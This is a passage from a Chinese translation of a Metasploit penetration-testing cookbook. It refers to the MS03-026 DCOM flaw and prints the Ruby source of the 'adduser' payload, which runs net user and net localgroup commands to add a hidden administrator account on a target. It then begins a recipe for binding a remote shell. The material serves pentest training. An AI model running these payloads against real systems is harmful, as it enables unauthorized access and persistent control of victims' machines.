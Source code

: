 有关此漏洞的更多详细信息，您可以访问以下链接到 Microsoft 安全公告：

[`technet.microsoft.com/en-us/security/bulletin/ms03-026`](http://technet.microsoft.com/en-us/security/bulletin/ms03-026)

现在，为了了解`adduser`有效载荷的工作原理，我们将分析有效载荷的 ruby 代码。让我们浏览到有效载荷位置：

```
root@bt:~# cd /pentest/exploits/framework3/modules/payloads/singles/windows
root@bt:/pentest/exploits/framework3/modules/payloads/singles/windows# less adduser.rb 
```

我们感兴趣的代码部分如下：

```
# Register command execution options
register_options(
[
OptString.new('USER', [ true, "The username to create", "metasploit" ]),
OptString.new('PASS', [ true, "The password for this user", "metasploit" ]),
], self.class)
# Hide the CMD option
deregister_options('CMD')
end
#
# Override the exec command string
#
def command_string
user = datastore['USER'] || 'metasploit'
pass = datastore['PASS'] || ''
if(pass.length > 14)
raise ArgumentError, "Password for the adduser payload must be 14 characters or less"
end
return "cmd.exe /c net user #{user} #{pass} /ADD && " +
"net localgroup Administrators #{user} /ADD"
end

```

通过添加`#`符号的注释，您可以理解代码。代码简单且自解释。首先注册用户名和密码的值。然后，它继续隐藏`CMD`函数，以防止在目标屏幕上出现，同时执行有效载荷。然后，代码覆盖`windows/exec`有效载荷以传递参数值并启动一个隐秘的命令提示符在后台执行。

你可以玩弄代码并进行自己的更改。这将帮助你深入了解有效载荷的世界。

# 将一个 shell 绑定到目标以进行远程访问

在上一篇文章中，我们分析了如何利用 Windows SP2 机器并添加一个新用户账户。但是在执行利用后连接立即终止。在这篇文章中，我们将向前迈进一步，将一个 shell 绑定到目标上，以便我们可以建立远程连接并控制目标。这个过程与上一篇文章中提到的类似。我们所要做的就是使用一个不同的有效载荷，可以在目标机器上为我们启动一个 shell。

## 准备工作

我们将再次启动我们的`msfconsole`，我们的目标与*在 Windows XP SP2 机器上进行渗透测试*配方中相同。我们将使用相同的`dcom`漏洞，然后这次使用不同的有效载荷将一个 shell 绑定到目标。

## 如何做...
